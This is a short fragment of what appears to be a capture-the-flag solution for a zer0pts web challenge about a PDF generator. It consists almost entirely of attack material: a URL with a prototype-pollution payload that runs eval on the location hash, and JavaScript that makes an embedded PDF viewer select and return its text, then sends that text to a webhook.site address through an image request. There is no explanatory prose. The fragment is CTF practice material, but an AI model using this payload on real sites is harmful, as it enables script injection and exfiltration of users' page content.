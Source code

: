 Report : https://pdfgen.ctf.zer0pts.com:8443/text?text=asd&a[constructor][prototype][props][][value]=a&a[constructor][prototype][name]=a":''.constructor.constructor('eval(decodeURIComponent(location.hash.slice(1)))')(),"a#
window.addEventListener('message', (e) => {
  if (e.data.type === 'getSelectedTextReply') {
    (new Image).src = ['https://webhook.site/1d9e11f1-9421-40d3-954f-8c2712c9d16e?data=', e.data.selectedText];
  }
});
(async () => {
  const wait = x => new Promise(r=>{setTimeout(r,x)});
  document.getElementsByTagName('embed')[0].postMessage({type:'selectAll'}, '*');
  document.getElementsByTagName('embed')[0].postMessage({type:'getSelectedText'}, '*');
})();